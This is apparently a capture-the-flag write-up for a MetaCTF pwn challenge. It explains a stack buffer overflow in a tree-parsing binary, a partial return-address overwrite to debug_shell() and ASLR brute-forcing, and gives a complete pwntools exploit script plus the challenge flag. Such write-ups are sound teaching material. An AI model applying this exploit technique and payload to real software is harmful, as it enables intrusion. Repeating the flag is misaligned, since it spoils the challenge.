






# Simple Sums - Writeup

---

## Challenge Description



---

## Exploit Demo

This demo shows the exploitation flow:


---

## Challenge Summary

The challenge involves a binary that parses binary tree-like strings into a flat array representation on the stack. Due to a flawed assumption that the tree is fully balanced, the program underallocates stack space when parsing sparse trees. This leads to a stack-based buffer overflow. The attacker can exploit this to partially overwrite the return address and redirect execution to a built-in debug_shell() function using a ret2win strategy. ASLR is bypassed with a brute-force approach targeting the lower 12 bits of the address.

## Binary Information

```bash
$ file christmas_tree.bin
```



```bash
$ pwn checksec christmas_tree.bin
```



---

## Static Analysis (IDA Pro)

The `main()` function reads user commands and passes input to `print_tree()` when the `"display"` option is chosen.



In `print_tree()`, the program:

- Estimates the number of nodes (`estimate_tree_size()`),
- Allocates a stack buffer with `alloca()` based on that size,
- Parses the tree string via `decode_tree()`.



**Issue:** The estimated size assumes a complete tree. With a deep, sparse tree, `decode_tree()` writes past the small buffer, causing a **stack buffer overflow**. This allows a **partial return address overwrite**, enabling a **ret2win exploit** via the hidden `debug_shell()` function.

---

## Exploit Strategy

Send a deeply nested, sparse tree string that causes the program to allocate a smaller buffer than needed. This triggers out-of-bounds writes on the stack, allowing partial overwrite of the return address. By placing specific characters at precise positions, the attacker overwrites the lower bytes of the return address to redirect execution to the hidden debug_shell() function. ASLR is bypassed by brute-forcing the unknown bits of the address, requiring multiple attempts to successfully gain a shell.

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template christmas_tree.bin --host host5.metaproblems.com --port 7521
from pwn import *
import time

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'christmas_tree.bin')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'host5.metaproblems.com'
port = int(args.PORT or 7521)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        PIE enabled
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)


while True:
    io = start()


    io.recvuntil(b'Welcome! What would you like to do? : ')
    io.sendline(b"display")
    io.recvuntil(b'Please enter your encoded christmas tree : ')
    io.sendline(b"0()(1()(2()(3(4(()(i))((S)()))())))")
    for i in range(3) :
        io.recvline()

    try:
        io.sendline(b"cat flag.txt")
        flag = io.recvline().strip()
        #log.success(f"FLAG : {flag.decode()}")
        log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")

        break

    except:
        io.close()


```

---

## Exploit Output



---

## Vulnerability Summary

The binary parses strings representing binary trees and stores them in a stack-allocated array. It calculates the required buffer size by counting the number of nodes and assuming the tree is fully balanced. However, this logic fails when the tree is **deep and sparse** (e.g., having only right children), where the **depth exceeds the allocated array size**.

As a result, during deserialization, the program writes **beyond the bounds of the stack buffer**, causing a **stack-based buffer overflow**. Because the stack layout places the return address near the end of the array, carefully crafted input can be used to **partially overwrite the return address**. Although stack canaries are present and **ASLR is enabled**, the attacker leverages:

- **A hidden `debug_shell()` function** (ret2win-style exploitation).
- **Partial return address overwrite** (only lower 2 bytes needed).
- **Brute-force guessing** (\~16 tries on average due to 4 bits of entropy).

This leads to reliable control of execution flow and ultimately a shell, allowing retrieval of the flag.

---

## Flag

```
MetaCTF{0h_chr1stm4s_tr33_h0w_l0v3ly_4r3_y0ur_br4nch3s}
```
